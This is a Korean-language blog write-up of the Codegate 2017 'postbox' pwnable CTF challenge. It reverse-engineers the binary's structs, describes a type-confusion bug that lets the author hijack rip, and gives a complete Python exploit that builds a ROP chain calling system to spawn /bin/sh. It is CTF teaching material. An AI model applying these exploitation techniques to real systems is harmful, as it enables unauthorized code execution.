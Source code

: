 ```yaml
---
layout:     post
title:      "Codegate 2017 postbox write-up"
subtitle:   "codegate 2017 prequals pwnable"
date:       2018-04-09
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2017 PostBox WriteUp

### 1. Intro

분석에 애를 먹었으며 사실 아직까지 다 분석하지 못했다. 귀찮으니 분석하고싶을때 다시 해봐야겠다. 익스플로잇도 정말 감으로 했는데 oneshot을 쓰면 되는거였다. ㅠ


### 2. Binary & Vulnerability

static 바이너리라 ida FLIRT를 이용해 심볼을 복구해서 봤다.

Register / Un-Register / Edit -> Register
- name + "\x00" (12 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (90 byte)

Register / Un-Register / Edit -> Edit
- name + "\x00" (11 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (96 byte)

Create
- kind - atoi(64byte)
- price - atoi(128byte) (max : 1000000)
- info + "\x00" (11 byte)
- name + "\x00" (12 byte)
- phone + "\x00" (14 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (98 byte)
- payment - atoi (4 byte)

Change
- name + "\x00" (11 byte)
  - summary : ' to '를 찾아서 거기서부터 10바이트 붙여넣음.
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (100 byte)
- payment - atoi(4 byte)

0x4009d0 (이건 함수하나에 대해 분석)
- malloc(40) - box
- box -> manage =malloc(0x300)
- box -> chunk_size = 0x300
- box -> use = 48
- box -> manage -> chunk = box -> manage -> chunk_data[0xf0 * i]

```c
### Struct ###

struct Box{
	Box_chunk_manage *manage;
	__int64 chunk_size;
	__int64 use;
	__int64 AAAA;
}

struct Box_chunk_manage{
	__int64 flag;
	__int64 chunk_count;
	__int64 *chunk[4];
	char chunk_data[0x2d0];
}

struct User_info{
	__int64 *user_vt;
	char name[16];
	char phone[16];
	char zipcode[16];
	char address[120];
	__int64 *vt2;
}

struct Res_info{
	char name[16];
	char phone[13];
	char zipcode[5];
	char address[90];
	__int32 pay;
}

struct Res_vtable{
	__int64 *edit_res_name;
	__int64 *edit_res_phone;
	__int64 *edit_res_zip;
	__int64 *edit_res_add;
	__int64 *make_summary;
}

struct Post_info{
	__int64 *box_vt;
	__int64 kind;
	Res_vtable res_vt;
	char post_info[16];
	char summary[24];
	Res_info res_info;
	__int64 price;
}
```

위처럼 분석을 했는데 큰 의미는 없었다. 이것저것 만지다보니 하나의 청크를 두개가 동시에 가르키고 있는 경우가 있어서, register과 post사이에 타입컨퓨전으로 인해 rip가 바뀔꺼라 예측하고 손퍼징으로 rip를 바꿨다..<br>익스플로잇은 적절히 바이너리 내에서 입력받는곳으로 rip를 바꾸고 스택에 입력을 받은뒤 rip를 더해 거기까지 가주고 rop chain을 구성해서 풀었다. 하지만 static에 system 함수에는 one_shot gadget이 존재한다. PPP는 그걸로 exploit 했던데 그생각을 못했다.



### 3. Exploit

```python
from ntpwn import *
import string

s = process('./postbox')
b = BP(s)
#b.bp64(0x2d8b)
b.bp64(0x7f07f)
b.done()
log.info("USER : " + hex(0x2c00))

def regi(name,phone,zipcode,address):
	s.sendlineafter('-> ','1')
	s.sendlineafter('-> ',name)
	s.sendlineafter('-> ',phone)
	s.sendlineafter('-> ',zipcode)
	s.sendlineafter('-> ',address)

def unregi():
	s.sendlineafter('->','1')
	s.sendlineafter('->','Y')

def create(kind,price,info,rec_name,rec_phone,rec_zipcode,rec_address,payment):
	s.sendlineafter('-> ','2')
	s.sendlineafter('-> ',kind)
	s.sendlineafter('-> ',price)
	s.sendlineafter('-> ',info)
	s.sendlineafter('-> ',rec_name)
	s.sendlineafter('-> ',rec_phone)
	s.sendlineafter('-> ',rec_zipcode)
	s.sendlineafter('-> ',rec_address)
	s.sendlineafter('-> ',payment)

def change(idx, content):
	s.sendlineafter('->','1')
	s.sendlineafter('->','n')
	s.sendlineafter('->','y')
	s.sendlineafter('->',idx)
	s.sendafter('->',content)
	s.sendlineafter('->','5')

def send(idx):
	s.sendlineafter('->','4')
	s.sendlineafter('->',idx)

regi('C' * 8,'A','A',p64(0x6D2BE0) * 11)
change('2','\xc0\x16\x40\x41' + "\x00" * 10)
create('8','10','NEXTLINEPOST', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')
send('1')

for i in range(5):
	create('8','10','NEXTLINE', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')

unregi()
send('2')

read = 0x446360
system = 0x4129b0
prdi = 0x404346
prdxrsi = 0x4497b9
bss = 0x6d3400

payload = '\x46\x43\x40\xff' + p32(0) + p64(0) # prdi
payload += p64(prdxrsi) + p64(0x100) + p64(bss)
payload += p64(read)
payload += p64(prdi) + p64(bss)
payload += p64(system)

# send - 3 (change zipcode)
s.sendlineafter('->','4')
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','\x7f\xf0\x47')
s.sendlineafter('->','5')

# change - zipcode (call 0x401e10)
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','2')
s.sendlineafter('->','A' * (0x88-5) + payload + 'A' * 0x80)
s.recvuntil('->')

pause()
# change - address (jmp add rsp, 0x68 ; ret)
s.sendlineafter('->','4')
s.recv(1024)
s.sendline('/bin/sh')

s.interactive()
```

